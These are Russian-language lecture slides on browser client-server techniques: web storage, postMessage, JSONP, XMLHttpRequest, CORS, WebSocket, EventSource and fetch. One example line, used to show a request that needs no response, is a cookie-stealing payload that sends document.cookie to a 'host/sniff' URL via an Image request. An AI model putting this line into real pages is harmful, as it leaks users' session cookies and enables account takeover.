


Web и DHTML
AJAX и аналоги
Леонид Волканин
ИМКН УрФУ

Хлебом не корми, только дай что-нибудь классифицировать...
Зачем?
Как?
Cookie — тоже локальное хранилище :) Правда всего 4 Кб
Во время Первой Великой Войны браузеров Майкрософт изобрел очень много вещей, в т.ч. DHTML Behaviors, а там — userData (64 Кб)
Adobe включил во Flash в 2002 г. Local Shared Objects, библиотека AMASS (AJAX Massive Storage System) и др.
http://www.w3.org/TR/webstorage/
window.localStorage и window.sessionStorage, даже в IE8
function isLocalStorageAvailable() {try {return 'localStorage' in window &&window['localStorage'] !== null;} catch (e) {return false;}}
interface Storage {readonly attribute unsigned long length;DOMString? key(unsigned long index);getter DOMString? getItem(DOMString key);setter void setItem(DOMString key, DOMString value);deleter void removeItem(DOMString key);void clear();};
addEventListener("storage", handle_storage, false);
у объекта StorageEvent
https://github.com/tejacques/crosstab (тест)
crosstab.broadcast(event, data, destination);
crosstab.on('eventName', function(message) { });
var message = {id: string, // The unique ID of this messageevent: string, // The name of the eventdata: any, // The data passeddestination: string, // The destination taborigin: string, // The origin tabtimestamp: number // The time the message was created};
Web SQL Database — хорошая попытка, но умерла...
openDatabase('documents', '1.0', 'Offline document storage', 5*1024*1024, function (db) {db.changeVersion('', '1.0', function (t) {t.executeSql('CREATE TABLE docids (id, name)');}, error);});
В качестве физического хранилища предлагалась sqlite
IndexedDB — w3.org/TR/IndexedDB
var request = indexedDB.open("library");request.onupgradeneeded = function() {var db = request.result;var store = db.createObjectStore("books", {keyPath: "isbn"});var titleIndex = store.createIndex("by_title", "title", {unique: true});var authorIndex = store.createIndex("by_author", "author");store.put({title: "Quarry Memories", author: "Fred", isbn: 123456});store.put({title: "Water Buffaloes", author: "Fred", isbn: 234567});store.put({title: "Bedrock Nights", author: "Barney", isbn: 345678});};request.onsuccess = function() {db = request.result;};
Свежий стандарт — 19 мая 2015, caniuse.com
//в одном окнеvar o = document.getElementsByTagName('iframe')[0];o.contentWindow.postMessage('Hello world', 'http://e1.ru/');
//в другом окнеwindow.addEventListener('message', receiver, false);function receiver(e) {if (e.origin == 'http://example.com') {if (e.data == 'Hello world') {e.source.postMessage('Hello', e.origin);}}}
interface MessageEvent : Event {readonly attribute any data;readonly attribute DOMString origin;readonly attribute DOMString lastEventId;readonly attribute (WindowProxy or MessagePort)? source;readonly attribute MessagePort[]? ports;}
var channel = new MessageChannel();otherWindow.postMessage('hello', 'http://example.com',
[channel.port2]);channel.port1.postMessage('hello');channel.port1.onmessage = handleMessage;function handleMessage(event) {// сообщение в event.data}
mdn.github.io/channel-messaging-multimessage
AJAX (аббревиатура от «Asynchronous Javascript And Xml») — технология обращения к серверу без перезагрузки страницы
COMET — общий термин, описывающий различные техники получения данных по инициативе сервера
Можно сказать, что AJAX — это «отправил запрос — получил результат», а COMET — это «непрерывный канал, по которому приходят данные»
Когда ответ от сервера не нужен
new/**/Image().src='http://host/sniff?c='+ escape(document.cookie);
Также динамическое подключение сценариев, CSS и пр.
IFRAME — самый древний кросс-браузерный способ AJAX-запросов
// Окно из iframevar iframeWin = iframe.contentWindow;// Можно получить и через frames, если мы знаем имя iframe (и оно у него есть)var iframeWin = window.frames[iframe.name];iframeWin.parent == window; // parent из iframe указывает на родительское окно// Документ не будет доступен, если iframe с другого доменаvar iframeDoc = iframe.contentWindow.document;
Общий принцип использования: динамически создать, сделать запрос, удалить (т.к. навигация в нём попадает в историю посещений)
<script>parent.Callback[window.name]({данные});</script>Бесконечный IFRAME — самый старый способ организации COMET
Классическая реализация — клиент создает невидимый IFRAME, ведущий на служебный URL
Сервер, получив соединение на этот URL, не закрывает его, а время от времени присылает блоки сообщений <script>...javascript...</script>
IFrame при этом работает только на получение данных с сервера
Для запросов используется обычный XMLHttpRequest
Если создать тег <script src='...'>, то при добавлении в документ запустится процесс загрузки
В ответ сервер может прислать скрипт, содержащий нужные данные
Таким образом можно запрашивать данные с любого сервера, в любом браузере
Протокол JSONP (JSON with Padding) — это «надстройка» над таким способом коммуникации
И так ведь будет работать:
function addScript(src) {var elem = document.createElement("script");elem.src = src;document.head.appendChild(elem);}addScript('user?id=123');
Браузер по script.onload узнает, что получен ответ сервера:var user = {name: "Вася", age: 25 };
Если одновременно делается несколько запросов?
Присваивать в разные переменные?
addScript('user?id=123&callback=onUserData');onUserData*({ name: "Вася", age: 25});Точно так же — long polling (длинные запросы)
// 1. Создаём новый объект XMLHttpRequestvar xhr = new XMLHttpRequest();// 2. Конфигурируем его: GET-запрос на URL 'phones.json'xhr.open('GET', 'phones.json', false);// 3. Отсылаем запросxhr.send();// 4. Если код ответа сервера не 200, то это ошибкаif (xhr.status != 200) {alert( xhr.status + ': ' + xhr.statusText );} else {alert( xhr.responseText );}
xhr.open(method, URL, [async], [user], [password])
Вызов open не открывает соединение!
xhr.send([body]) — отослать данные, тело есть при методе POST
xhr.abort() — прервать выполнение запроса
Ответ: status (0, 200, 404, 404, ...), statusText, responseText
Если сервер вернул XML (Content-type: text/xml), то можно будет делать запросы xhr.responseXml.querySelector(...) и др.
Обычно используют JSON
Сервер возвращает JSON в виде текста, который браузер превращает в объект вызовом JSON.parse(xhr.responseText)
Если в методе open установить async = false или просто забыть его указать, то запрос будет синхронным
xhr.open('GET', 'db.json', true);xhr.send();xhr.onreadystatechange = function() {if (xhr.readyState != 4) return;if (xhr.status != 200) {alert(xhr.status + ': ' + xhr.statusText);} else {alert(xhr.responseText);}}
UNSENT = 0; // начальное состояниеOPENED = 1; // вызван openHEADERS_RECEIVED = 2; // получены заголовкиLOADING = 3; // загружается тело (получен очередной пакет)DONE = 4; // запрос завершён
setRequestHeader(name, value), нельзя установить Referer или Host и ряд других
Поставленный заголовок нельзя снять
xhr.setRequestHeader('X-Auth', '123');xhr.setRequestHeader('X-Auth', '456');// X-Auth: 123, 456
getResponseHeader(name) — возвращает значение заголовка ответа, кроме Set-Cookie
getAllResponseHeaders()
Максимальную продолжительность асинхронного запроса можно задать свойством timeout
При превышении этого времени запрос будет оборван и сгенерировано событие ontimeout:
xhr.ontimeout = function() {alert('ой, всё...');}
Cпецификация предусматривает следующие события:
Ответы на запросы XMLHttpRequest кешируются, как страницы
Заголовки Expires, Last-Modified и Cache-Control дают понять браузеру, что следует делать
IE9- по умолчанию кеширует все ответы, не снабжённые антикеш, поэтому сервер должен добавить Cache-Control: no-cache
Альтернативный вариант (по историческим причинам)
xhr.open('GET','service?r=' + Math.random(),false);
При отправке формы браузер собирает значения полей, составляет тело GET/POST-запроса
При отправке через XMLHttpRequest это нужно делать самим
JavaScript знает decodeURI, encodeURI, encodeURIComponent
Браузер перечисляет пары «имя=значение» через амперсанд &
Все символы, кроме английских букв, цифр и - _ . ! ~ * ' ( ) заменяются на их цифровой код в UTF-8 со знаком %
Например, пробел заменяется на %20, символ / на %2F, русские буквы кодируются двумя байтами в UTF-8
alert( encodeURIComponent(' ') ); // %20alert( encodeURIComponent('/') ); // %2Falert( encodeURIComponent('В') ); // %D0%92
Параметры передаются в теле запроса: xhr.send(body)
Обязателен заголовок Content-Type, содержащий кодировку
В стандартных формах — три кодировки (атрибут enctype):
Content-Type: multipart/form-data; boundary=RaNdOmDeLiMiTeR--RaNdOmDeLiMiTeRContent-Disposition: form-data; name="name"Виктор--RaNdOmDeLiMiTeRContent-Disposition: form-data; name="surname"Цой--RaNdOmDeLiMiTeR--
Можно создать запрос, который сервер воспримет как загрузку файла
Нужно использовать тот же код, добавив заголовки перед файлом
Content-Disposition: form-data; name="fname"; filename="p.jpg"Content-Type: image/jpegсодержимое файла
Конструктор new FormData([form]) вызывается либо без аргументов, либо с DOM-элементом формы
Метод formData.append(name, value) добавляет данные к форме
Можно сразу отсылать, кодировка при этом будет multipart/form-data
var formData = new FormData(document.forms.person);formData.append("patronym", "Робертович");xhr.send(formData);
XMLHttpRequest сам не ограничивает кодировку и формат данных
Часто используется формат JSON
var json = JSON.stringify({name: "Виктор", surname: "Цой"});xhr.open("POST", '/submit');xhr.setRequestHeader('Content-type',
'application/json; charset=utf-8');// Сервер должен уметь такой Content-Type приниматьxhr.send(json);
CORS — специальные ограничения, простыми считаются запросы
«Непростыми» считаются все остальные, например, запрос с методом PUT или с заголовком Authorization

По умолчанию можно читать только «простые» заголовки: Cache-Control, Content-Language, Content-Type, Expires, Last-Modified, Pragma
Другие нужно указывать явно:
HTTP/1.1 200 OKContent-Type:text/html; charset=UTF-8Access-Control-Allow-Origin: *X-Uid: 123X-Authorization: 2c9de507f2c54aa1Access-Control-Expose-Headers: X-Uid, X-Authentication
По умолчанию браузер не передаёт авторизующие заголовки
Нужно поставить запросу xhr.withCredentials = true
Сервер должен вернуть уже не один, а два заголовка:
Access-Control-Allow-Origin: доменAccess-Control-Allow-Credentials: true
Многие верят, что «если метод — нестандартный, то это не браузер»
Для запросов с «непростым» методом или особыми заголовками браузер делает предзапрос OPTIONS, указывая их в Access-Control-Request-Method и Access-Control-Request-Headers
Браузер ожидает ответ со статусом 200, без тела, со списком разрешённых методов и заголовков в Access-Control-Allow-Method и Access-Control-Allow-Headers

Запрос XMLHttpRequest состоит из двух фаз
xhr.upload (объект XMLHttpRequestUpload и события)xhr.onprogressУ этого объекта нет методов, он генерирует события
xhr.upload.onprogress = function(event) { console.log(event.loaded+'/'+event.total) }Протокол WebSocket (RFC 6455) работает над HTTP, снимает ограничения на обмен данными между браузером и сервером
Он позволяет пересылать любые данные, на любой домен, безопасно и почти без лишнего сетевого трафика
var socket = new WebSocket("ws://server.ru/ws")
4 события: при получении данных и при изменениях в состоянии соединения
Браузер отправляет заголовки: «поддерживает ли сервер WebSocket?»
new WebSocket("ws://server.example.com/chat")
GET /chat HTTP/1.1Host: server.example.comUpgrade: websocketConnection: UpgradeOrigin: http://server.ruSec-WebSocket-Key: Iv8io/9s+lYFgZWcXczP8Q==Sec-WebSocket-Version: 13
Такой XMLHttpRequest (подделать WebSocket) создать нельзя
Если сервер отвечает «да, поддерживаю», то HTTP прекращается и общение идёт на специальном протоколе WebSocket, который уже не имеет с HTTP ничего общего
HTTP/1.1 101 Switching ProtocolsUpgrade: websocketConnection: UpgradeSec-WebSocket-Accept: hsBlbuDTkk24srzEOTBUlZAlC2g=
Соединение WebSocket можно открывать как WS:// или как WSS:// (WebSocket над HTTPS)
socket.send(data), пересылать можно любые данные
socket.onopen = function() { ... };socket.onclose = function(event) {if (event.wasClean) { // чистое закрытие }};socket.onmessage = function(event) {// Получены данные — event.data};socket.onerror = function(error) {// Ошибка — error.message};
Свежий стандарт — 3 февраля 2015, w3.org/TR/eventsource
Стандарт позволяет браузеру создавать специальный объект EventSource, который сам обеспечивает соединение с сервером, делает пересоединение в случае обрыва и генерирует события при поступлении данных
var eventSource = new EventSource("/events/subscribe");eventSource.onmessage = function(e) {console.log("Пришло сообщение: " + e.data);};
Cервер должен ответить Content-Type: text/event-stream, оставить соединение и писать в формате:
data: Сообщение 1data: Сообщение 2data: из двух строк
При создании объекта браузер автоматически подключается к серверу, а при обрыве — пытается его возобновить (обычно 1-3 сек)
retry: 15000data: Поставлена задержка 15 секунд
Сервер может маркировать сообщения идентификатором:
data: данныеid: 100500
Используется в eventSource.lastEventId и в заголовке Last-Event-ID: 100500
eventSource.close()eventSource.onopen = function(e) {console.log("Соединение открыто");};eventSource.onerror = function(e) {if (this.readyState == EventSource.CONNECTING) {console.log("Соединение порвалось, пересоединяемся...");} else {console.log("Ошибка, состояние: " + this.readyState);}};
Можно задать своё имя события:
event: joindata: Вася
Тогда обработчик вешаем так:
eventSource.addEventListener('join', function(e) {alert( 'Пришёл ' + e.data );});
Метод fetch — это XMLHttpRequest нового поколения
Улучшенный интерфейс для осуществления запросов к серверу:
как по части возможностей и контроля над происходящим, так и по синтаксису, так как построен на промисах
Поддержка в браузерах пока не очень распространена, но есть полифилл и не один
let promise = fetch(url[, options]);
Свойства options:
fetch('/user.json').then(function(response) {// application/json; charset=utf-8alert(response.headers.get('Content-Type'));alert(response.status); // 200return response.json();}).then(function(user) {alert(user.name);}).catch( alert );